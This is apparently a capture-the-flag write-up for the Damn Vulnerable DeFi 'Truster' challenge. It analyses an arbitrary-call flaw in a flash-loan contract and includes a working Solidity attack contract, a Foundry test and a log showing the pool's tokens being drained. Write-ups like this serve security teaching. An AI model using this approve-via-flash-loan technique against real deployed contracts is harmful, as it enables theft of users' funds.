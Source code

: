 # Challenge - Truster

More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

## Objective of CTF

To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.

## Vulnerability Analysis

### Root Cause: Arbitrary Call

```solidity
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data) external nonReentrant returns (bool){
    uint256 balanceBefore = token.balanceOf(address(this));

    token.transfer(borrower, amount);
    target.functionCall(data);

    if (token.balanceOf(address(this)) < balanceBefore) {
        revert RepayFailed();
    }

    return true;
}
```

In this `flashLoan` function, we observe that it allows us to execute an arbitrary external call within the `TrusterLenderPool` contract, as shown in the following code snippet:

```solidity
target.functionCall(data);
```

In this scenario, an attacker can execute a token approval to their address during the flash loan process. Although the `flashLoan` function ensures the borrowed amount is repaid, it doesn’t prevent the attacker from later using the `transferFrom` function to move tokens from the `TrusterLenderPool` contract, leading to a potential loss of funds.

### Attack steps:

1. Execute a flash loan and include data to approve a specific address to spend `TrusterLenderPool`'s tokens.
2. Use the approved address to transfer tokens from `TrusterLenderPool` to the `recovery`.

## PoC test case

### Attack Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.25;

import {Ownable} from "solady/auth/Ownable.sol";
import {IERC20} from "@openzeppelin/contracts/interfaces/IERC20.sol";

interface TrusterLenderPool {
    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data) external returns (bool);
}

contract AttackTrusterLenderPool is Ownable {
    uint256 private constant TOKENS_IN_POOL = 1_000_000e18;

    address private immutable pool;
    address private immutable token;
    address private immutable recovery;

    constructor(address _pool, address _token, address _recovery) {
        _initializeOwner(msg.sender);

        pool = _pool;
        token = _token;
        recovery = _recovery;
    }

    function attack() external onlyOwner {
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), TOKENS_IN_POOL);

        // approve 1000000 ether token during the flashloan
        TrusterLenderPool(pool).flashLoan(0, address(this), token, data);
        // transfer all token from pool to recovery
        IERC20(token).transferFrom(pool, recovery, TOKENS_IN_POOL);
    }
}
```

### Test contract

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {Test, console} from "forge-std/Test.sol";
import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {TrusterLenderPool} from "../../src/truster/TrusterLenderPool.sol";
import {AttackTrusterLenderPool} from "../../src/truster/AttackTrusterLenderPool.sol";

contract TrusterChallenge is Test {
    address deployer = makeAddr("deployer");
    address player = makeAddr("player");
    address recovery = makeAddr("recovery");

    uint256 constant TOKENS_IN_POOL = 1_000_000e18;

    DamnValuableToken public token;
    TrusterLenderPool public pool;

    modifier checkSolvedByPlayer() {
        vm.startPrank(player, player);
        _;
        vm.stopPrank();
        _isSolved();
    }

    /**
     * SETS UP CHALLENGE - DO NOT TOUCH
     */
    function setUp() public {
        startHoax(deployer);
        // Deploy token
        token = new DamnValuableToken();

        // Deploy pool and fund it
        pool = new TrusterLenderPool(token);
        token.transfer(address(pool), TOKENS_IN_POOL);

        vm.stopPrank();
    }

    /**
     * VALIDATES INITIAL CONDITIONS - DO NOT TOUCH
     */
    function test_assertInitialState() public view {
        assertEq(address(pool.token()), address(token));
        assertEq(token.balanceOf(address(pool)), TOKENS_IN_POOL);
        assertEq(token.balanceOf(player), 0);
    }

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_truster() public checkSolvedByPlayer {
        emit log("-------------------------- Before exploit --------------------------");
        emit log_named_decimal_uint(
            "token balance in the pool contract", token.balanceOf(address(pool)), token.decimals()
        );
        emit log_named_decimal_uint(
            "token balance in the recovery", token.balanceOf(address(recovery)), token.decimals()
        );

        AttackTrusterLenderPool maliciousContract = new AttackTrusterLenderPool(address(pool), address(token), recovery);
        maliciousContract.attack();

        emit log("-------------------------- After exploit --------------------------");
        emit log_named_decimal_uint(
            "token balance in the pool contract", token.balanceOf(address(pool)), token.decimals()
        );
        emit log_named_decimal_uint(
            "token balance in the recovery", token.balanceOf(address(recovery)), token.decimals()
        );
    }

    /**
     * CHECKS SUCCESS CONDITIONS - DO NOT TOUCH
     */
    function _isSolved() private view {
        // Player must have executed a single transaction
        assertEq(vm.getNonce(player), 1, "Player executed more than one tx");

        // All rescued funds sent to recovery account
        assertEq(token.balanceOf(address(pool)), 0, "Pool still has tokens");
        assertEq(token.balanceOf(recovery), TOKENS_IN_POOL, "Not enough tokens in recovery account");
    }
}
```

### Test Result

```
Ran 2 tests for test/truster/Truster.t.sol:TrusterChallenge
[PASS] test_assertInitialState() (gas: 21997)
[PASS] test_truster() (gas: 420959)
Logs:
  -------------------------- Before exploit --------------------------
  token balance in the pool contract: 1000000.000000000000000000
  token balance in the recovery: 0.000000000000000000
  -------------------------- After exploit --------------------------
  token balance in the pool contract: 0.000000000000000000
  token balance in the recovery: 1000000.000000000000000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 6.10ms (310.00µs CPU time)

Ran 1 test suite in 256.57ms (6.10ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```
